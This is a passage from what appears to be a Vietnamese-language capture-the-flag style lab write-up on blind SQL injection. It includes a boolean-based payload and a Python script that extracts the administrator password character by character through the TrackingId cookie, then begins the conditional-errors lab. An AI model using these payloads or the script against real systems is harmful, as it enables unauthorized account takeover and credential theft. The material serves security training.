 ```' AND (SELECT username FROM users WHERE username = 'administrator' AND LENGTH(password)>1) = 'administrator'--```
        pay_load = tracking_id_original + f"'AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), {pos}, 1) = '{char}'--"
        cookies["TrackingId"] = pay_load
        
        response = requests.get(URL, cookies=cookies)
        
        if "Welcome back!" in response.text:
            Found = true
            password += char
            print(f"[+] Found charector {pos} : {char}")
            break
        
    if not Found: 
        print("[!] Not Found")
        break
    
print(f"\nadministrator password is: {password}")
```


## Lab: Blind SQL injection with conditional errors

**END goal** Tìm ra password của người dùng administrator và đăng nhập vào tài khoản đó.

- Web page ban đầu:

![alt text](./img/lab11-1.png)

Ta không thấy bất kì câu thông báo như Welcome back như ở lab trước đó, nhưng khi xem xét thì vẫn thấy có 2 giá trị session và TrackingId.
